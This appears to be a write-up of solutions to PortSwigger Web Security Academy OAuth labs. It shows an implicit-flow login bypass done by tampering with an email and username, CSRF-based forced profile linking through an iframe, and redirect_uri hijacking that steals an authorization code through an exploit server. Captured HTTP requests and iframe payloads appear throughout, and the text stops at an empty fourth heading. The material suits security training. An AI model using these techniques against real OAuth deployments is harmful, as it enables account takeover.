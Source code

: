 # OAuth 2.0 authentication vulnerabilities

### >> 1. Authentication bypass via OAuth implicit flow
> This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the client application makes it possible for an attacker to log in to other users' accounts without knowing their password. To solve the lab, log in to Carlos's account. His email address is carlos@carlos-montoya.net. You can log in with your own social media account using the following credentials: wiener:peter.`

Solution: 
- Change the payload to reflect the email address and username of Carlos
````http
POST /authenticate HTTP/1.1
Host: ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Cookie: session=AYlXg9S3SS3Yb7OjYfXNTGl8gFqgRvdt
Content-Length: 111
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Accept: application/json
Content-Type: application/json
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://ac2e1fea1e94ca5bc1979089008c00ce.web-security-academy.net/oauth-callback
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"email":"carlos@carlos-montoya.net","username":"carlos","token":"tY2Y8c57C6kHCy8X3BxnE4Hm3YoJyeOfMuhjlkFSQeb"}
````

### >> 2. Lab: Forced OAuth profile linking

- The request sends the authorization code to the /oauth-login `redirect_uri`
- There is no `state` parameter in the oauth, so it might be vulnerable to CSRF
````
https://oauth-ac4e1f2d1eaf72afc0ae569802f400e3.web-security-academy.net/auth?client_id=j2ba7uqsy1y35kw1wmd5o&redirect_uri=https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-login&response_type=code&scope=openid%20profile%20email
````

- Run the first login complete and then click to attach a social profile again, but now with interception on on burp
- Drop this request and copy the URL; perform logout
- Create a iframe object and delivery it to the victm using the Exploit server
````html
<iframe src="https://ac0b1f681ee77200c0b65677005800f5.web-security-academy.net/oauth-linking?code=LTpkSauiz5Y_iiFdFkmU7jTvtADFySL_sOGqSWMgysp"></iframe>
````
- Click now in Login with Social Media and delete the Carlos user to complete the lab

### >> 3. Lab: OAuth account hijacking via redirect_uri

- There is a redirect_url vulnerability where you can change the destination of the callback.

````http
GET /auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email HTTP/1.1
Host: oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net
Cookie: _session=YqBOphL7KtRbtBcp4cgil; _session.legacy=YqBOphL7KtRbtBcp4cgil
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


````

- Insert a iframe object with the redirect_url changed

````html
<iframe src="https://oauth-ac3a1f561e1b7240c0f97dcb023a00dd.web-security-academy.net/auth?client_id=ezdeqti0mlvmnntgt5fcu&redirect_uri=https://exploit-ac2b1fd61eca7273c0797dda01610022.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
````

- The callback returns a code to the webserver (controlled by the attacker)

````apache
172.31.30.114   2022-05-06 17:36:28 +0000 "GET /?code=E-byTvzsUdz-fhc2hWBYqFs7mJiEf2OvWchcO2dEEVL HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36"
````

- Use the code in a new login session

````
GET /oauth-callback?code=E-byTvzsUdz-fhc2hWBYqFs7mJiEf2OvWchcO2dEEVL HTTP/1.1
Host: acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net
Cookie: session=FEmgoUPOnicODVY4VMMdZRbz8ozTJ570
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Referer: https://acad1f4d1e6072bec0507d00006d00e4.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


````

- And delete the user Carlos to complete the exercise

### >> 4.

